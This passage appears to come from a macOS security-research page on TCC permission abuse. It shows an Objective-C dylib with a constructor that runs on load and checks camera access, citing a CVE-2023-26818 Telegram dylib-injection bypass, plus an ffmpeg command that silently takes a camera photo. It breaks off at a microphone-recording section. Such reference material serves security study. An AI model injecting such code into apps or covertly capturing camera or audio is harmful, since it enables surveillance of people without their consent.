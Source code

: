 ```
    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:3.0]];
    fclose(stderr); // Close the file stream
}
```
```

**ObjectiveC - Check**
Check if the program has access to the camera.

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface CameraAccessChecker : NSObject
+ (BOOL)hasCameraAccess;
@end
@implementation CameraAccessChecker
+ (BOOL)hasCameraAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to camera granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to camera denied.");
        return NO;
    }
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    freopen("/tmp/logs.txt", "a", stderr);
    [CameraAccessChecker hasCameraAccess];
    fclose(stderr); // Close the file stream
}
```
```

**Shell**
Take a photo with the camera

```bash
ffmpeg -framerate 30 -f avfoundation -i "0" -frames:v 1 /tmp/capture.jpg
```
```


### Microphone

- **Entitlement**: **com.apple.security.device.audio-input**
- **TCC**: `kTCCServiceMicrophone`

**ObjetiveC - Record**
Record 5s of audio an store it in `/tmp/recording.m4a`

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// Code from https://www.vicarius.io/vsociety/posts/cve-2023-26818-exploit-macos-tcc-bypass-w-telegram-part-1-2
```